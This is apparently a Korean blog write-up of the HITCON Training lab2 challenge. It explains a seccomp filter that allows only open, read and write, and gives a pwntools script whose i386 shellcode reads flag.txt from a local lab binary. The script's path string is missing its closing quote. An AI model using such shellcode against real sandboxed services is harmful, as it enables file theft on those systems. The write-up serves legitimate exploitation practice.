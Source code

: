 ```yaml
---
layout: post
title: "[HITCON Training] lab2"
comments : true
category : War Game
---
```


# 문제
***

이 문제는 처음에 orw_seccomp함수 내에서 prctl 함수를 호출한다. 이를 통해서 권한 상승 (setuid 등을 이용한)을 방지하고 사용할 수 있는 syscall의 종류를 제한한다. (read, write, open, exit syscall만 사용 가능)

정의되어 있는 option 및 option 값 설명 :  <https://elixir.bootlin.com/linux/latest/source/include/uapi/linux/prctl.h>

option 설명 : <http://man7.org/linux/man-pages/man2/prctl.2.html>

그리고 0xc8 바이트 만큼의 입력을 받은 뒤 입력으로 받은 코드를 호출한다.

flag.txt를 읽어오기 위해서는 open()을 통해 해당 파일을 열고 read를 통해서 flag.txt 내용을 stack에 옮긴다. 그 뒤 표준출력에 stack에 저장된 내용을 write를 하면 flag.txt의 내용을 읽어올 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

shell=(pwnlib.shellcraft.i386.open('/home/sungyun/HITCON-Training/LAB/lab2/flag.txt))
shell+=(pwnlib.shellcraft.i386.read(3,'esp',30))
shell+=(pwnlib.shellcraft.i386.write(1,'esp',30))

exploit=asm(shell,arch='i386')

p=process("/home/sungyun/HITCON-Training/LAB/lab2/orw.bin")

p.recvuntil(":")
p.send(exploit)
print p.recv()

```
# 질문?
***
이 elf 파일이 실행되는 machine은 x86_64이다. 따라서 입력으로 주는 코드로 x64 (AMD64) 어셈블리를 주면 실행할 수 있을거라고 생각했다. 하지만 x64 어셈블리를 입력으로 주어도 해당 파일 내에서는 코드를 x86 어셈블리로 해석해버린다. 그래서 제대로 된 동작을 하지 않는다. 뭐 그렇단다...ㅋㅋ

